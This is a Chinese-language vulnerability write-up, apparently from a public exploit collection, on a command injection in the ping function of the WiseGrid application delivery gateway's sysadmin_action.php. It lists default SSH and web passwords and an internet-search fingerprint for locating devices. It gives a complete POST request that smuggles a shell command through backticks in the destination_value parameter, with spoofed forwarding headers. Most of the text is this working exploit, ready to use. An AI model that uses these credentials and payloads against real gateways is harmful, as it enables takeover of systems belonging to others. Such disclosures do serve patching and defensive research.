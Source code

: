# 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

```
信诺瑞得 WiseGrid慧敏应用交付网关
```

## 网络测绘

```
app="WiseGrid慧敏应用交付网关"
```

## 漏洞复现

登录页面

![image-20220525143430650](./images/202205251434774.png)

默认口令

```
ssh：root/sinogrid
web: admin/sinogrid
```

```
![2](C:/Users/47236/Desktop/2.png)![2](C:/Users/47236/Desktop/2.png)POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```

![](./images/202205251433134.png)

![]()![2](./images/202205251434769.png)